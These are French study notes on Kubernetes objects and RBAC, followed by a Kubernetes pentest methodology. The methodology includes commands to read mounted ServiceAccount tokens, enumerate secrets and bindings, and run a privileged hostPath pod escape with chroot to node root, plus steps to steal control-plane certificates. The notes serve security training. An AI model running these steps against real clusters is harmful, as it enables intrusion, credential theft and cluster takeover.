




## 1. C'est quoi un "objet" Kubernetes ?

> [!question] La confusion à lever Pod, ConfigMap, Service, Secret, Role... ce ne sont **pas** des types différents de "containers". Ce sont des **enregistrements stockés dans une base de données** (etcd), que Kubernetes lit pour savoir quoi faire tourner et comment.

Un **objet Kubernetes** = une fiche YAML/JSON enregistrée dans le cluster, avec toujours la même structure :

```yaml
apiVersion: v1        # quelle version d'API gère ce type d'objet
kind: ConfigMap        # LE TYPE de l'objet (Pod, Service, Secret, ConfigMap...)
metadata:               # nom, namespace, labels...
  name: mon-objet
spec:                   # ce que l'objet DOIT être (déclaratif)
data: {...}              # contenu propre à ce type d'objet
```

> [!tip] Analogie Pense à etcd comme une **base de données**, et chaque `kind` (Pod, Service, ConfigMap, Secret, Role...) comme une **table différente**. Un Pod et un ConfigMap sont juste deux types d'enregistrements différents, au même niveau hiérarchique — **un ConfigMap n'est pas "dans" un Pod**, ce sont deux objets séparés qui peuvent être _liés_ (le Pod peut monter le ConfigMap comme fichier ou variable d'env).



**Donc concrètement :**

- Un **Pod** est un objet qui _décrit_ un ou des containers à faire tourner.
- Un **ConfigMap** est un objet qui _stocke_ de la config, à part, que d'autres objets (Pods) peuvent venir lire.
- Un **Secret** est pareil qu'un ConfigMap mais pour du sensible.
- Un **Service** est un objet qui _décrit_ une règle de routage réseau.
- Un **Role** est un objet qui _décrit_ une liste de permissions.

Aucun de ces objets ne "contient" physiquement un autre. Ils sont stockés côte à côte dans etcd, et se référencent entre eux par nom.

---

## 2. Architecture globale du cluster

![[IMG-20260630114323532.png]]

> [!important] Point central pour le pentest **Tout** passe par l'API Server. Que ce soit `kubectl`, un Pod légitime, ou toi avec un token volé via LFI — tout le monde parle à la même porte d'entrée HTTPS. Compromettre une identité = pouvoir parler à l'API Server avec ses droits.

---

## 3. Hiérarchie des objets applicatifs



|Objet|Rôle en une phrase|
|---|---|
|**Namespace**|Dossier logique qui regroupe des objets liés (PAS une frontière de sécurité par défaut)|
|**Deployment**|Garantit que N copies d'un Pod tournent, les relance si elles crashent|
|**DaemonSet**|Variante du Deployment : une copie sur **chaque** node du cluster|
|**Pod**|Plus petite unité déployable, un ou plusieurs containers qui partagent réseau/stockage|
|**Service**|Adresse stable + nom DNS interne qui pointe vers des Pods, même quand ils changent|
|**ConfigMap**|Stockage clé/valeur de config non sensible|
|**Secret**|Stockage clé/valeur de config sensible (encodé base64, **pas chiffré** par défaut)|

> [!warning] ConfigMap vs Secret — la différence n'est QUE conventionnelle Techniquement, un ConfigMap et un Secret fonctionnent presque pareil. La différence est une **convention d'usage** (Secret = sensible) renforcée par un encodage base64 côté Secret — qui n'apporte **aucune protection cryptographique réelle** (base64 se décode instantanément). Résultat en pratique : il est très fréquent que des développeurs mettent par erreur (ou flemme) des credentials dans un ConfigMap au lieu d'un Secret. **C'est une cible de recon n°1.**

---

## 4. Identité et authentification

Deux types d'identités :

- **User** (humain) — pas géré nativement par k8s, passe par cert client ou SSO externe.
- **ServiceAccount (SA)** (processus/Pod) — géré nativement, token JWT monté automatiquement dans chaque Pod.

Format de l'identité d'une SA :

```
system:serviceaccount:<namespace>:<nom-de-la-SA>
```

Groupes hérités automatiquement :



> [!danger] Pourquoi ça compte Un droit RBAC donné à `system:authenticated` ou `system:serviceaccounts` s'applique à **toi automatiquement**, dès que t'as un token valide — même sans binding nommé pour ta SA précise. C'est une mauvaise configuration très fréquente à chercher en recon.

---

## 5. RBAC — le système de permissions

> [!question] Le point qui bloque le plus de monde RBAC = **4 objets**, qui vont toujours par paire : une définition de permissions, et un lien vers une identité.



> [!tip] Règle d'or Un **Role/ClusterRole tout seul ne donne aucun droit à personne**. C'est uniquement la combinaison **Role + Binding** qui donne effectivement un droit à une identité. Toujours chercher les deux.

### 5.1 Exemple concret

```yaml
# CE QUI est permis
kind: Role
metadata:
  name: configmap-reader
  namespace: services
rules:
- apiGroups: [""]
  resources: ["configmaps"]
  verbs: ["get", "list"]
---
# QUI a ce droit
kind: RoleBinding
metadata:
  name: lien-vers-ma-sa
  namespace: services
subjects:
- kind: ServiceAccount
  name: ma-sa
roleRef:
  kind: Role
  name: configmap-reader
```

### 5.2 Verbes RBAC

|Verbe|Action|
|---|---|
|`get`|lire un objet précis|
|`list`|lister tous les objets d'un type|
|`watch`|suivre les changements en temps réel|
|`create`|créer un objet|
|`update` / `patch`|modifier un objet|
|`delete`|supprimer un objet|
|`*`|tous les verbes|

Verbes RBAC spéciaux, **critiques en privesc** :

|Verbe|Danger|
|---|---|
|`bind`|créer un Binding vers un Role, même au-delà de ses propres droits|
|`escalate`|modifier un Role pour s'octroyer plus de permissions|
|`impersonate`|se faire passer pour une autre identité plus privilégiée|

> [!note] Sous-ressources `pods` et `pods/exec` sont **deux permissions RBAC distinctes**. Avoir `get` sur `pods` ne donne pas `create` sur `pods/exec`. Toujours vérifier les sous-ressources séparément.

---


### Phase 1 — Reconnaissance réseau / anonyme

**Objectif** : tester si l'API server ou le kubelet sont accessibles sans authentification.

```bash
curl -k https://<ip>:6443/version
curl -k https://<ip>:6443/api
kubectl --server=https://<ip>:6443 --insecure-skip-tls-verify auth can-i --list

# kubelet souvent mal protégé
curl -k https://<node_ip>:10250/pods
curl -k http://<node_ip>:10255/pods
```

> [!tip] Méthode Scanner les ports classiques k8s : `6443` (API), `2379-2380` (etcd), `10250` (kubelet HTTPS), `10255` (kubelet HTTP, legacy), `8080`/`8443` (parfois API non sécurisée), `30000-32767` (NodePorts exposés).

### Phase 2 — Accès initial

**Objectif** : obtenir un token + cert via une vulnérabilité applicative (LFI, RCE, SSRF) sur un Pod.

```bash
cat /var/run/secrets/kubernetes.io/serviceaccount/token
cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
cat /var/run/secrets/kubernetes.io/serviceaccount/namespace
```

### Phase 3 — Recon authentifié : qui suis-je, que puis-je faire

```bash
kubectl auth whoami
kubectl auth can-i --list
```

> [!tip] Méthode Toujours croiser `auth can-i --list` avec les **groupes** retournés par `auth whoami`. Un droit "anormalement large" donné à `system:authenticated` ou `system:serviceaccounts` est une faille de configuration classique.

### Phase 4 — Recon applicative (avec les droits read disponibles)

**Objectif** : exploiter les droits read-only pour trouver des infos qui mènent plus loin.

```bash
kubectl get configmaps --all-namespaces
kubectl get configmap <name> -n <ns> -o yaml
kubectl get secrets --all-namespaces        # si autorisé
kubectl get services --all-namespaces -o wide
kubectl get clusterrolebindings -o yaml
kubectl get rolebindings --all-namespaces -o yaml
```

Cibles typiques :

- ConfigMaps contenant des credentials par erreur
- Services internes intéressants (DB, API internes) via le DNS `<service>.<namespace>.svc.cluster.local`
- Bindings RBAC mal scopés (rôle puissant lié à un groupe large)

### Phase 5 — Privilege Escalation

Selon le droit puissant trouvé en Phase 4 :

|Droit trouvé|Technique|
|---|---|
|`create pods` (+ namespace permissif)|Pod privilégié avec `hostPath: /` → chroot sur le node|
|`create pods/exec`|Exec dans un pod existant plus privilégié|
|`get secrets`|Vol de token d'une SA plus puissante|
|`create daemonsets`|Exécution sur **tous** les nodes du cluster|
|`bind`|Créer un Binding vers un rôle puissant existant|
|`escalate`|Modifier un Role pour s'octroyer plus de droits|
|`impersonate`|Se faire passer pour une identité plus privilégiée|

```yaml
# Exemple : escape via pod privilégié + hostPath
apiVersion: v1
kind: Pod
metadata:
  name: privesc-pod
spec:
  containers:
  - name: privesc
    image: alpine
    command: ["sleep", "infinity"]
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: host-root
  volumes:
  - name: host-root
    hostPath:
      path: /
```

```bash
kubectl exec -it privesc-pod -- chroot /host /bin/bash
```

### Phase 6 — Pivot / persistance

Une fois root sur un node :

- Vol des certificats du control plane (`/etc/kubernetes/pki/`)
- Accès direct à `etcd` si node de control plane (contient **tous** les objets du cluster en clair, y compris les Secrets non chiffrés at-rest par défaut)
- Création de nouvelles SA/Bindings pour garder un accès persistant

### Phase 7 — Contrôle du cluster

Avec les certs du control plane ou un accès `etcd`, contrôle total : création/suppression de n'importe quel objet, lecture de tous les Secrets, exécution de code sur n'importe quel Pod.

---

## 7. Lexique rapide

|Terme|Définition courte|
|---|---|
|**Objet**|Enregistrement YAML stocké dans etcd, identifié par son `kind`|
|**Cluster**|Ensemble des machines gérées par Kubernetes|
|**Node**|Une machine du cluster (control plane ou worker)|
|**API Server**|Porte d'entrée HTTPS unique pour piloter le cluster|
|**etcd**|Base de données qui stocke tous les objets du cluster|
|**kubelet**|Agent sur chaque node qui exécute les ordres localement|
|**Namespace**|Cloisonnement logique, pas une frontière de sécurité automatique|
|**ServiceAccount**|Identité d'un Pod pour s'authentifier à l'API|
|**RBAC**|Système de permissions : Role/ClusterRole + Binding|
|**kubeconfig**|Fichier stockant clusters/users/contexts pour kubectl|

> [!success] Ce qu'il faut retenir Tous les objets sont au même niveau dans etcd, reliés par des **références de noms**, pas d'imbrication physique. Le pentest k8s, c'est : trouver une identité → voir ses droits → exploiter les droits read pour trouver des infos → trouver un droit write/create dangereux → escalader.